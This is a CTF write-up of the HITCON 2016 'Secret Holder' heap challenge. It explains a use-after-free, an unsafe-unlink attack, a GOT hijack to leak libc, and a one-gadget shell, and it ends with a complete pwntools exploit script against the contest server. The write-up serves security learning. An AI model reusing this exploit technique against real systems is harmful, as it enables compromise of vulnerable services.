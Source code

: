 ```yaml
---
title: HITCON CTF 2016 Quals -- Secret Holder
comments: true
permalink: "/:title/"
tags:
- Python
- CTF
- Pwnable
- use_after_free
- heap
- HITCON
- heap_overflow
categories:
- write-ups
date: '2016-10-10 08:10:00 +0000'
---
```


**Category:** pwn  
**Points:** 100

<!-- more -->  

I did not finish the challenge during the contest, but was able to solve it after the game. Damn if only I can fuzz some more...

64 bit ELF,  with Partial RELRO, canary & NX enabled, no PIE.  
Program allow us to:

* keep secret : new a secret ( using `calloc()` )
* wipe secret : delete a secret
* renew secret : edit a secret

There are three kinds of secret in the program: 

* `small` : secret with buffer size 40
* `big` : secret with buffer size 4,000
* `huge` : secret with buffer size 400,000

There's a Use-After-Free vulnerability in the `wipe` function:
```c
v0 = atoi(&s);
switch ( v0 )
{
    case 2:
        free(secret_buf_big);
        has_keep_big = 0;
        break;
    case 3:
        free(secret_buf_huge);
        has_keep_huge = 0;
        break;
    case 1:
        free(secret_buf_small);
        has_keep_small = 0;
        break;
}
```
When wiping a secret, it does not check the `has_keep_XXX` flag ( a flag that indicates now there's a small/big/huge secret in the program). So for example if we `keep(small)` --> `wipe(small)` --> `keep(big)` --> **`wipe(small)`**, it will free the `big` buffer, but we can still `renew(big)`

During the contest I did not know how to exploit the service. I successfully overlapped the `small` and the `big` buffer, but it only made me able to overwrite the top_size, which is useless since we can't control the size of the `calloc` function ( thus we can't do the [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) attack ). I was also failed to overlapped these two buffer with the different base address ( that is, I can only overlapped `small` & `big` with the same base heap address), so I was unable to overflow the heap buffer and overwrite the chunk header.  

After I asked the author of this challege, I realize that the key point of solving this challenge is to **exploit the `huge` and the `big`'s memory chunk**. 

While solving this challenge, I thought that if the malloc size was larger than `0x20000`, glibc will always use `mmap` to allocate the memory space. But I was wrong -- if we `keep(huge)`--> `wipe(huge)`--> `keep(huge)`, we will found that the second `huge` buffer was allocated by the `malloc` function, not `mmap` !! ( Thanks to the god damn `sysmalloc` !! )

So here's how we gonna exploit it:

* Use `keep` and `wipe` to make `small` & `huge` buffer be on the same heap address.
* `keep(big)` and make `big` buffer adjacent to the end of the `small` buffer.
* By doing `renew(huge)`, we'll be able to overflow the whole `big` buffer, thus we can create a fake **smallbin** memory chunk at the address of the `big` buffer.  
* By creating some fake chunks, we can use the [unsafe unlink](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) attack to overwrite `&huge_buf` ( all three buffer's address are store in the global data section ), so now the `huge`'s buffer will be lying on the global data section.
* Now we can overwrite all three buffer address ( data pointer ) by doing `renew(huge)`
* `renew(small/huge/big)` to overwrite the content of any address.  

After we overwrite the `huge`'s buffer address, we can try to do the GOT hijacking attack. But first we'll have to leak some address. The program itself did not output any of our input , so I decide to hijack  `free`'s GOT first. 

By overwriting `free`'s GOT into `puts@plt`, and `small`'s buffer into `__libc_start_main@got.plt`, we are able to leak the libc's address by doing `wipe(small)`, since it'll call `free(small)`, which is now `puts(_libc_start_main@got.plt)`.

After that we're able to overwrite some GOT and hijack the control flow. Here I overwrite `puts`'s GOT into the address of the [one-gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf), which will make the program spawn a shell whenever it tries to call `puts` to print out some message.  

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()


```

Such a shame that I didn't solve this challenge ...... I might be able to solve it if I did some more fuzzing.....

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`
